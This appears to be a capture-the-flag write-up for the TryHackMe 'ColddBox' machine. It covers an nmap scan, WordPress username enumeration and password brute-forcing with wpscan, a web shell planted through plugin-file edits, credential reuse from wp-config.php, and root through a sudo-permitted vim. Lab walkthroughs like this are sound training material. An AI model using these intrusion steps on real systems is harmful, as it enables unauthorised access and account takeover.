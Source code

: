 # ColddBox

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/442c3b7bab5e3f52b5341cfa9e52e5c0.png)

## Difficulty = Easy

***

running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Wed Oct 25 23:53:54 2023 as: nmap -p80,4512 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.44.62
Nmap scan report for 10.10.44.62
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 25 23:54:13 2023 -- 1 IP address (1 host up) scanned in 18.58 seconds
```

Navigating to port `80/HTTP` we have a word press website


![](https://i.imgur.com/ktOjuQR.png)

Running a word press scanner called `wpscan` , i was able to find some valid usernames we can try to bruteforce under `/wp-login.php`

```bash
$ wpscan --url http://10.10.44.62/ -e u,cb --verbose
```


![](https://i.imgur.com/Ss4Y4DJ.png)

Nice, so we have **hugo**, **c0ldd** and **philip**, we can also navigate to `/wp-login.php` and try out this usernames with the wrong password to confirm if it is true

![](https://i.imgur.com/WIEoBq2.png)


We can therefore save this username into a text file and bruteforce with `wpscan`

```bash
$ wpscan --url http://10.10.44.62/ -U users.txt -P /usr/share/wordlists/rockyou.txt
```

We found only one user password which is user **c0ldd**

![](https://i.imgur.com/6nMJOkO.png)


We can therefore upload our shell by changing the content of the plugin files and navigating to the URL


![](https://i.imgur.com/C8fiavE.png)


**The URL :**

![](https://i.imgur.com/tkiFArP.png)

We got our shell back as user **www-data**

![](https://i.imgur.com/Z5JWaca.png)


Navigating to the `/var/www/html` directory we have the **wp-config.php** file

![](https://i.imgur.com/WIXO1zB.png)

concatenating it gives us user **c0ldd** password

![](https://i.imgur.com/rlfKv5g.png)

we can therefore `su` to user **c0ldd** 

![](https://i.imgur.com/rd19yFQ.png)

Running `sudo -l` we see that we have the permission to run vim, chmod and ftp with super user permissions

![](https://i.imgur.com/2zFVR5e.png)

i will be using `/usr/bin/vim` to gain root, on the command line do

```bash
$ sudo /usr/bin/vim
```

Hit enter and You should then be given a prompt like this

![](https://i.imgur.com/1ahGNab.png)

Then just type in `:shell` and you should be root

![](https://i.imgur.com/tq5IeNg.png)

GG 😃

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
